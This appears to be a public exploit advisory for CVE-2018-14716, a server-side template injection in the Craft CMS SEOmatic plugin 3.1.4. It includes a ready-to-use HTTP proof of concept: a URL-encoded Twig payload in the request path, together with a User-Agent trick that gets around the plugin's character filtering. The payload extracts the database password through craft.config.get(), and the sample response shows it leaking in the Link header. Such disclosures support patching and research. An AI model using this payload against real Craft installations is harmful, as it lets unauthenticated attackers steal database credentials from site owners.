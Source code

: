 # Exploit Title: Craft CMS SEOmatic plugin 3.1.4 - Server-Side Template Injection
- Date: 2018-07-20
- Software Link: https://github.com/nystudio107/craft-seomatic
- Exploit Author: Sebastian Kriesten (0xB455)
- Contact: https://twitter.com/0xB455
- CVE: CVE-2018-14716
- Category: webapps

## 1. Description
An unauthenticated user can trigger the Twig template engine by injecting 
code into the URI as described in this article:

http://ha.cker.info/exploitation-of-server-side-template-injection-with-craft-cms-plguin-seomatic/

This can be leveraged to perform arbitrary calls against the template engine and the CMS.
The output will be reflected within the Link header of the response.

## 2. Proof of Concept
The injection can be performed against any part of the URL path. However as the framework is replacing 
control characters with HTML entities (e.g. ' ==> &#039;) it is not possible to directly address methods with
parameter values. Therefor it is required to bypass the filter by invoking functions such as craft.request.getUserAgent()
and store the parameter values in the User-Agent header. In combination with Twig's slice() filter it is then possible
to extract sensitive information by utilizing the craft.config.get() method:

### Request:
```HTTP
HEAD /db-password:%20%7b%25%20set%20dummy%20=%20craft.request.getUserAgent()|slice(0,8)%25%7d%7b%25%20set%20dummy2%20=%20craft.request.getUserAgent()|slice(9,2)%25%7d%7b%7bcraft.config.get(dummy,dummy2)%7d%7d HTTP/1.1
Host: craft-installation
User-Agent: password db
```

### Response:
```HTTP
HTTP/1.1 404 Not Found
Server: nginx
…

Link: <db-password: SECRET>; rel='canonical'
…

```
